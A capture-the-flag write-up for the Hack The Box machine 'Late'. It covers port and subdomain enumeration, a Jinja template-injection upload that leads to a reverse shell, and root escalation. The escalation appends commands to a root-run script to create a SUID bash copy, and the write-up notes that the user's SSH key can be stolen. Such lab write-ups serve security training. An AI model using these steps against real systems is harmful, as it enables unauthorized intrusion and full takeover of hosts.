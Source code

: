 # [Late](https://app.hackthebox.com/machines/late)

```bash
nmap -p- --min-rate 10000 10.10.11.156 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.156 -Pn
```

![alt text](img/image-1.png)


From website enumeration, I see that for Contact there's `late.htb` domain name is used , let's add this domain into `/etc/hosts` file for resolving purposes.


Let's do `subdomain enumeration` for our target.

```bash
ffuf -u http://late.htb/ -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 9461
```

![alt text](img/image-2.png)

I found `images.late.htb` domain name, let's add this also into `/etc/hosts` file.


This web application is like that used for converting images to text.

![alt text](img/image-3.png)


By analyzing application, I see that there's `Jinja` template is used, if I upload image contains `SSTI` (Server-Side Template Injection) payload, it can work.

Let's add this below `payload` image.

![alt text](img/image-4.png)


I see the result,

![alt text](img/image-5.png)


Let's add image which contains reverse shell payload, it will go through like below way.

1.First, we need to create `bash` script that's reverse shell actually.

![alt text](img/image-6.png)


2.Next, we need to open python http server to serve this file.
```bash
python3 -m http.server --bind 10.10.14.7 8080
```

![alt text](img/image-7.png)

3.Next, we need to submit below image into web application.

![alt text](img/image-8.png)


Hola!  I got reverse shell from port (1337).

![alt text](img/image-9.png)


Let's make interactive shell via below commands.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-10.png)

user.txt

![alt text](img/image-11.png)


For privilege escalation, let's add `pspy64` into machine to gather information about background jobs.

![alt text](img/image-12.png)


There's script called `ssh-alert.sh`, let's read content of this file.

![alt text](img/image-13.png)


Despite that `svc_acc` user is owner of this script, however cannot do any **overwrite** to this file.

![alt text](img/image-14.png)


![alt text](img/image-15.png)

Let's look at `attribute` of this file via `lsattr` command.

![alt text](img/image-16.png)


There's `a` letter is used, it means we can only `append` something to this file.


Let's `append` our malicious shell command into here which is copying `/bin/bash` file and give to this `SUID` privilege

```bash
echo -e "cp /bin/bash /tmp/dr4ks\nchmod 4777 /tmp/dr4ks" >> /usr/local/sbin/ssh-alert.sh
```

![alt text](img/image-17.png)


Let's see our `dr4ks` file which is copied `/bin/bash` file and execute this via `-p` option to get root shell.

![alt text](img/image-18.png)


Note: This script works only after successful login to `svc_acc` user, but we don't know password of this user, we can login into this target app by stealing `id_rsa` file of this user.

![alt text](img/image-19.png)

root.txt

![alt text](img/image-20.png)